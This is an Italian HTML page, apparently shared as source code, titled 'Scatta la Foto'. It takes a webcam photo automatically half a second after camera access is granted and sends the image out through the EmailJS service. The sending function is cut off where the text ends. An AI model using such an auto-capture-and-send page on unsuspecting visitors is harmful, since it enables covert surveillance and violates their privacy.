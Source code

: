 <!DOCTYPE html>
<html lang="it">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Scatta la Foto</title>
    <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
</head>
<body>
    <h2>La foto verrà scattata automaticamente in 0.5 secondi!</h2>
    <video id="video" width="300" height="200" autoplay></video>
    <canvas id="canvas" width="300" height="200" style="display:none;"></canvas>
    <img id="photo" src="" alt="Foto">

    <script>
        // Inizializza EmailJS
        emailjs.init("YOUR_USER_ID"); // Aggiungi qui il tuo USER_ID

        const video = document.getElementById('video');
        const canvas = document.getElementById('canvas');
        const photo = document.getElementById('photo');

        // Ottieni la fotocamera del dispositivo
        navigator.mediaDevices.getUserMedia({ video: true })
            .then((stream) => {
                video.srcObject = stream;

                // Dopo 0.5 secondi, scatta la foto automaticamente
                setTimeout(function() {
                    const context = canvas.getContext('2d');
                    context.drawImage(video, 0, 0, canvas.width, canvas.height);
                    const dataUrl = canvas.toDataURL('image/png');
                    photo.src = dataUrl; // Mostra la foto sulla pagina

                    // Invia l'immagine tramite EmailJS
                    sendEmail(dataUrl);
                }, 500); // 500ms = 0.5 secondi
            })
            .catch((err) => console.log('Errore nell\'accesso alla fotocamera: ' + err));

        // Funzione per inviare la foto tramite email
